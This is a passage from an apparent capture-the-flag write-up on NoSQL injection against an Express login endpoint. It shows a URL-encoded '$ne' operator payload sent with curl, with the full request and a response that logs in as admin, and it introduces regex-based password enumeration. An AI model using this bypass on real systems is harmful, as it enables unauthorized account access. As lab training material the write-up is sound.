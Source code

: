 ```
```

I've come up with the idea to see how really the request looks - I must send the wrong data. Capturing the traffic with `wireshark` indeed shows, that requests I am sending via `curl` are truncated from `$ne`-like parameters. So I'm encoding the whole POST data in CyberChef (https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=dXNlcm5hbWVbJG5lXT0mcGFzc3dvcmRbJG5lXT0) and voila:

```
username[$ne]=&password[$ne]=
==
username%5B%24ne%5D%3D&password%5B%24ne%5D%3D
```

```
$ curl -d "username%5B%24ne%5D%3D&password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login

*   Trying 206.189.121.131:31978...
* Connected to 206.189.121.131 (206.189.121.131) port 31978 (#0)
> POST /api/login HTTP/1.1
> Host: 206.189.121.131:31978
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 45
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 45 out of 45 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 62
< ETag: W/"3e-BvDyP4u8qgWgGOMxzemBf6QGSBc"
< Date: Fri, 23 Apr 2021 10:41:57 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
* Connection #0 to host 206.189.121.131 left intact
{"logged":1,"message":"Login Successful, welcome back admin."}   
```

Now I need to get a grab on the session cookie.. But there is none. At least I have a username: admin.

I've scratched my head and started digging again. And I've found something.

### NoSQL Injection - regex requests

Do you remember these movies when some hacker is cracking somebody's password - character by character?

If you thought this is only a movie trick to keep the viewers interested.. we're both mistaken. Apparently this is really a thing, and we are going to do this right now.

Regex queries/enumeration. Similar to the previous trick, but a bit smarter - instead of matching whatever password user can have - we are going to _reverse guess_ the password character by character.
